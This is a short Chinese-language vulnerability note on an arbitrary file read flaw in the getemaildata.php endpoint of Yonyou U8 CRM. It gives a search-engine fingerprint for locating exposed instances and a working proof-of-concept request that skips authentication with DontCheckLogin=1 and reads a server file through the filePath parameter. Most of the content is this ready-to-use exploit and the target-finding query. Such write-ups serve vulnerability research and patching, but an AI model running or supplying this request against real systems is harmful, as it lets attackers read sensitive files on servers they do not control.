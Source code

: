 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面

![image-20230828150939621](images/image-20230828150939621.png)

验证POC

```
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![image-20230828150951560](images/image-20230828150951560.png)